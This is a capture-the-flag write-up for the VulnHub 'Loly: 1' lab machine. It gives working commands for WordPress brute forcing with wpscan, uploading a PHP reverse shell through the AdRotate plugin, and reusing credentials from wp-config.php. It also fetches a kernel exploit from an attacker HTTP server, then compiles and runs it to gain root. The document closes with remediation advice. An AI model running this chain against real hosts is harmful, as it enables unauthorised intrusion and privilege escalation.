



# Loly: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.180 (adjust for your network) |
| **Difficulty** | Easy (beginner) |
| **OS** | Linux (Ubuntu 4.4.0) |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/loly-1,538/) |

## Attack Summary

nmap → WordPress on nginx (dirb finds /wordpress) → wpscan user enum (loly) → brute rockyou → admin login → AdRotate plugin zip upload (PHP shell) → reverse shell → wp-config password reuse → su loly → Ubuntu 4.4.0 kernel exploit (45010) → root

## Methodology

1. Network discovery and service scan
2. Web enumeration with dirb
3. WordPress user enumeration and brute force
4. PHP reverse shell via AdRotate plugin zip upload
5. wp-config.php credential reuse
6. Kernel 4.4.0 local privilege escalation

---

## Step 1: Network Discovery

```bash
sudo netdiscover -r 192.168.0.1/24
nmap -A 192.168.0.180
```

Only port 80 (nginx) is open.

Add the host entry for WordPress to resolve:

```bash
echo "192.168.0.180 loly.lc" >> /etc/hosts
```


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.0.180
```

Finds `/wordpress/`. Browse to `http://loly.lc/wordpress/wp-admin`.

---

## Step 3: WordPress Attack

Enumerate users:

```bash
wpscan --url http://loly.lc/wordpress --enumerate u
```

Found user: `loly`

Brute-force the password:

```bash
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```




Credentials found: **loly : fernando**

---

## Step 4: PHP Reverse Shell via Plugin Upload

Log in to `http://loly.lc/wordpress/wp-admin`. Navigate to **AdRotate → Adverts → Add New → Upload**.

Create a PHP reverse shell, zip it:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Edit: $ip = '192.168.0.147'; $port = 1234;
zip shell.zip shell.php
```

Upload `shell.zip` through AdRotate's upload feature.

Start listener:

```bash
nc -lvp 1234
```

Access the uploaded shell:

```bash
curl http://loly.lc/wordpress/wp-content/banners/shell.php
```



Stabilize TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Step 5: Credential Reuse

Read WordPress config for database password:

```bash
cat /var/www/html/wordpress/wp-config.php
# DB_PASSWORD = 'lolyisabeautifulgirl'
```

Try reusing as local user:

```bash
su loly
# Password: lolyisabeautifulgirl
```

---

## Step 6: Kernel Exploit (Ubuntu 4.4.0)

Check kernel:

```bash
uname -a
# Linux loly 4.4.0-31-generic #50-Ubuntu ...
lsb_release -a
searchsploit ubuntu 4.4.0
```

Found: EDB-45010 (overlayfs privesc).

On attacker:

```bash
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://192.168.0.147:8000/45010.c
gcc 45010.c -o shell
chmod 777 shell
./shell
```

```bash
id
# uid=0(root) gid=0(root)
cat /root/root.txt
```



---

## Lessons Learned

1. **WPScan** efficiently enumerates WordPress users and brute-forces passwords
2. **Plugin upload features** in WordPress can be abused to drop PHP webshells
3. **wp-config.php** password reuse for local accounts is common and dangerous
4. **Ubuntu 4.4.0 overlayfs** (CVE-2015-8660, EDB-45010) allows local root on unpatched systems

## Remediation

| Vulnerability | Fix |
|---|---|
| Weak WordPress password | Enforce strong passwords; limit login attempts (Wordfence) |
| AdRotate zip upload to web root | Disable file upload if unused; add `.htaccess` to deny PHP in uploads |
| wp-config.php password reuse | Use unique passwords per service/user |
| Kernel 4.4.0 overlayfs | Update kernel to 4.4.0-92+ or apply security patch |
